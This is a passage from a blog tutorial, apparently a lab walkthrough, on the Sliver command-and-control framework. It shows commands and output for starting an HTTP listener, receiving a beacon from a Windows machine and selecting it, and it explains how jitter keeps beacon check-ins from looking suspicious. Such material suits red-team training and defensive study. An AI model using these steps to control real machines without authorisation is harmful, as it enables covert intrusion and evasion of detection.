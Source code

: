 Each of these have their own set of options and capabilities that the wiki/source code can explain much better than I ever could.

Since our beacon was only configured to have an `http` callback, we can run `http` in our shell and then execute the beacon on the remote Windows computer.
```shell
sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

[*] Beacon 32ca60f5 DIFFICULT_DYNAMO - 10.10.69.19:50006 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 00:33:36 EDT
```

![slifer](https://an00brektn.github.io/img/sliver/Slifer_the_Sky_Dragon.jpg)
<sup>Oh wait you said "Sliver"? Ah, wrong game, my bad.</sup>

## Combat Phase: Interacting with the Target
### Beacons
Now that we have a beacon on the target, what can we do with it? We can list the current beacons we have using the `beacons` command.

```shell
sliver > beacons 

 ID         Name               Tasks   Transport   Remote Address      Hostname          Username   Operating System   Locale   Last Check-In                            Next Check-In                         
========== ================== ======= =========== =================== ================= ========== ================== ======== ======================================== =======================================
 32ca60f5   DIFFICULT_DYNAMO   0/0     http(s)     10.10.69.19:50006   DESKTOP-1AGTDPB   sreisz     windows/amd64      en-US    Sun Sep 25 00:35:48 EDT 2022 (49s ago)   Sun Sep 25 00:36:56 EDT 2022 (in 19s) 
```

Recall that **beacons** are different from **sessions** in that they will periodically check in about every minute or so by default. From an OPSEC perspective, this is better because it doesn't look like a reverse shell, which is a continuous connection. I also say that a beacon checks in every minute *or so* because of **jitter**. Jitter is essentially making the check-ins more irregular, making it so that the beacon is not checking in at exactly every 60 seconds, because that would also be suspicious.

Tangent aside, we can interact with our beacon with the `use` command, followed by the ID of the beacon, which we can use the Tab key for auto fill.

```shell
sliver > use 32ca60f5-7004-4cad-a433-55e34aeaff04

[*] Active beacon DIFFICULT_DYNAMO (32ca60f5-7004-4cad-a433-55e34aeaff04)
```
